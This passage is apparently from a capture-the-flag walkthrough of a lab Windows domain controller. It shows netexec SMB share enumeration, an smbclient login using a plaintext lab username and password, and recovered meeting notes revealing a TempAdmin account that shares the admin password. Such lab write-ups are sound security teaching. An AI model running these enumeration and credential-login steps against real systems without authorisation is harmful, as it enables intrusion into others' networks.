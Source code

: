 ```
SMB         10.10.10.182    445    CASC-DC1         Share           Permissions     Remark
SMB         10.10.10.182    445    CASC-DC1         -----           -----------     ------
SMB         10.10.10.182    445    CASC-DC1         ADMIN$                          Remote Admin
SMB         10.10.10.182    445    CASC-DC1         Audit$                          
SMB         10.10.10.182    445    CASC-DC1         C$                              Default share
SMB         10.10.10.182    445    CASC-DC1         Data            READ            
SMB         10.10.10.182    445    CASC-DC1         IPC$                            Remote IPC
SMB         10.10.10.182    445    CASC-DC1         NETLOGON        READ            Logon server share 
SMB         10.10.10.182    445    CASC-DC1         print$          READ            Printer Drivers
SMB         10.10.10.182    445    CASC-DC1         SYSVOL          READ            Logon server share 
SPIDER_PLUS 10.10.10.182    445    CASC-DC1         [+] Saved share-file metadata to "/tmp/nxc_hosted/nxc_spider_plus/10.10.10.182.json".
SPIDER_PLUS 10.10.10.182    445    CASC-DC1         [*] SMB Shares:           8 (ADMIN$, Audit$, C$, Data, IPC$, NETLOGON, print$, SYSVOL)
SPIDER_PLUS 10.10.10.182    445    CASC-DC1         [*] SMB Readable Shares:  4 (Data, NETLOGON, print$, SYSVOL)
SPIDER_PLUS 10.10.10.182    445    CASC-DC1         [*] SMB Filtered Shares:  1
SPIDER_PLUS 10.10.10.182    445    CASC-DC1         [*] Total folders found:  58
SPIDER_PLUS 10.10.10.182    445    CASC-DC1         [*] Total files found:    20
SPIDER_PLUS 10.10.10.182    445    CASC-DC1         [*] File size average:    1.07 KB
SPIDER_PLUS 10.10.10.182    445    CASC-DC1         [*] File size min:        6 B
SPIDER_PLUS 10.10.10.182    445    CASC-DC1         [*] File size max:        5.83 KB
```
Look at your data at `OUTPUT_FOLDER: /tmp/nxc_hosted/nxc_spider_plus`

Let's login to Data. Let's login using `smbclient`

```
# smbclient -U 'CASC-DC1.cascade.local\r.thompson%rY4n5eva' //10.10.10.182/Data  
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Jan 26 22:27:34 2020
  ..                                  D        0  Sun Jan 26 22:27:34 2020
  Contractors                         D        0  Sun Jan 12 20:45:11 2020
  Finance                             D        0  Sun Jan 12 20:45:06 2020
  IT                                  D        0  Tue Jan 28 13:04:51 2020
  Production                          D        0  Sun Jan 12 20:45:18 2020
  Temps                               D        0  Sun Jan 12 20:45:15 2020
```

**Notice: how --spider Data with netexec doesn't bring anything but we can still login with smbclient and explore the folders**

I downloaded couple of files from the `IT` folder and these files are as follows
```
# ls                                                                                               
 ArkAdRecycleBin.log   dcdiag.log   Meeting_Notes_June_2018.html  'VNC Install.reg'
```
Reviewing the `Meeting_Notes_June_2018.html` reveals the username `TempAdmin`
```
From:                                         Steve Smith
To:                                               IT (Internal)
Sent:                                           14 June 2018 14:07
Subject:                                     Meeting Notes

For anyone that missed yesterday’s meeting (I’m looking at you Ben). Main points are below:

-- New production network will be going live on Wednesday so keep an eye out for any issues.
-- We will be using a temporary account to perform all tasks related to the network migration and this account will be deleted at the end of 2018 once the migration is complete. This will allow us to identify actions related to the migration in security logs etc. Username is TempAdmin (password is the same as the normal admin account password).

```